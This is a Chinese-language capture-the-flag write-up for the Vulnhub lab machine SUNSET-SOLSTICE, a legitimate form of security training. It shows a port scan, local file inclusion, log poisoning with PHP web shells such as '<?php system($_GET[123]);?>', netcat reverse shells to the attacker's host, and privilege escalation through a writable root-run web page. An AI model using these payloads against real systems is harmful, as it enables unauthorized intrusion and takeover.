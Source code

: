 ```yaml
---
layer: article
title: Vulnhub 499 SUNSET-SOLSTICE
tags: pentest vulnhub writeup
---
```


考点：文件包含、权限继承

靶机链接：<https://www.vulnhub.com/entry/sunset-solstice,499/>

## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.15 |
| SOLSTICE   | 10.0.2.4  |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.4
$ nmap -v -A -p- $rip
PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         pyftpdlib 1.5.6
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 10.0.2.4:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
22/tcp    open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 5b:a7:37:fd:55:6c:f8:ea:03:f5:10:bc:94:32:07:18 (RSA)
|   256 ab:da:6a:6f:97:3f:b2:70:3e:6c:2b:4b:0c:b7:f6:4c (ECDSA)
|_  256 ae:29:d4:e3:46:a1:b1:52:27:83:8f:8f:b0:c4:36:d1 (ED25519)
25/tcp    open  smtp        Exim smtpd 4.92
| smtp-commands: solstice Hello localhost [10.0.2.15], SIZE 52428800, 8BITMIME, PIPELINING, CHUNKING, PRDR, HELP
|_ Commands supported: AUTH HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP
80/tcp    open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
2121/tcp  open  ftp         pyftpdlib 1.5.6
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 10.0.2.4:2121
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drws------   2 www-data www-data     4096 Jun 18  2020 pub
3128/tcp  open  http-proxy  Squid http proxy 4.6
|_http-server-header: squid/4.6
|_http-title: ERROR: The requested URL could not be retrieved
8593/tcp  open  http        PHP cli server 5.5 or later (PHP 7.3.14-1)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
54787/tcp open  http        PHP cli server 5.5 or later (PHP 7.3.14-1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
62524/tcp open  tcpwrapped
Service Info: Host: solstice; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h20m00s, deviation: 2h18m35s, median: 1s
| nbstat: NetBIOS name: SOLSTICE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   SOLSTICE<00>         Flags: <unique><active>
|   SOLSTICE<03>         Flags: <unique><active>
|   SOLSTICE<20>         Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|_  WORKGROUP<1e>        Flags: <group><active>
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: \x00
|   NetBIOS computer name: SOLSTICE\x00
|   Workgroup: WORKGROUP\x00
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)


```

### WEB测试

发现web端口，优先进行web漏洞测试

- 80端口没发现啥问题，纯粹是个兔子洞，那个`phpIPAM`最后进系统一看，各种空文件
- 8593端口存在本地文件包含漏洞，应该是这里搞突破了

```http
http://10.0.2.4:8593/index.php?book=/../../../../../etc/passwd
```

### 漏洞发现

于是想包含apache2日志或者auth.log

试图包含 <http://10.0.2.4:8593/index.php?book=/../../../../../var/log/auth.log>发现包含失败，应该是权限不够。

试图包含 <http://10.0.2.4:8593/index.php?book=/../../../../../var/log/apache2/access.log发现日志未写入，测试80和54787> web应用，访问

```http
http://10.0.2.4:80/p80
http://10.0.2.4:54787/p54787
```

发现对<http://10.0.2.4:80>的访问会写入`/var/log/apache2/access.log`日志。

## 获得权限

### 本地测试

本地启动`/etc/init.d/apache2 start`

测试 将一句话通过user-agent写入apache2日志文件

```bash
curl http://10.0.2.15 -A '<?php system($_GET[123]);?>'
```

![1](https://static.iihack.com/vulnhub/499/1.JPG)

![2](https://static.iihack.com/vulnhub/499/2.JPG)

写入成功

### 靶机测试

#### 思路一

```bash
curl http://10.0.2.4 -A '<?php system($_GET[123]);?>'
```

浏览器访问

```http
http://10.0.2.4:8593/index.php?book=/../../../../../var/log/apache2/access.log&123=nc 10.0.2.15 444 -e /bin/bash
```

获得反弹shell，权限是`www-data`

![4](https://static.iihack.com/vulnhub/499/4.JPG)

尝试写入当前目录，发现可写，果断wget一句话连antsword。

![5](https://static.iihack.com/vulnhub/499/5.JPG)

这里第一次连接失败，断掉nc连接成功

![6](https://static.iihack.com/vulnhub/499/6.JPG)

#### 靶机测试-思路二

也可以直接写antsword用的`<?php eval($_POST[123]); ?>`

```bash
curl http://10.0.2.4 -A '<?php system($_GET[123]);?>'
```

antsword连上

```http
http://10.0.2.4:8593/index.php?book=/../../../../../var/log/apache2/access.log
```

 密码 `123`

#### 靶机测试-思路三

还可以使用burpsuite提交`<?php eval($_POST['cmd']); ?>`burpsuite可避免转义

## 提权

一番查看进程，发现有个root权限启动的web服务在57端口

![7](https://static.iihack.com/vulnhub/499/7.JPG)

刚好该目录index.php文件可以写入，果断写入nc反弹

```php
system('nc 10.0.2.15 555 -e /bin/sh');
```

![9](https://static.iihack.com/vulnhub/499/9.JPG)

执行curl获得root

```bash
curl http://127.0.0.1:57
```

![10](https://static.iihack.com/vulnhub/499/10.JPG)
